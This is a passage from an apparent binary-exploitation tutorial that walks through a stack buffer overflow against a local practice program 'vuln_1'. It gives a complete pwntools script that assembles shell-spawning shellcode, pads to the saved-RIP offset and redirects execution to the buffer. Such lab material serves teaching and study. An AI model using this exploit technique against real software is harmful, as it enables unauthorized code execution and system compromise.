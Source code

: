   

From this we can see that our buffer _started at `0x7fffffffdcc0`_, so that's our target address for the shell code.

  

### Python & Pwntools

  

This is our exploit script:

  

```python

#!/usr/bin/env python3

from pwn import *

  

# we overflow saved rip after 280 or 0x118 bytes

overflow_offset_rip = 0x118

  

# we point saved rip to the address of the start of our buffer

new_rip = 0x7fffffffdcc0

  

# construct shellcode

# let pwntools know we're dealing with a 64-bit target

context.update(arch="amd64")

  

# assemble shellcode

shellcode = asm(shellcraft.amd64.linux.sh())

  

# construct payload

payload = shellcode                                      # shellcode

payload += b"A" * (overflow_offset_rip - len(shellcode)) # fill up buffer to 280 bytes

payload += p64(new_rip)                                  # pack little endian

  

# connect to the vulnerable program

p = process("./vuln_1")

  

# send payload

p.sendafter(b"Hey, whats your name!?\n", payload)
```
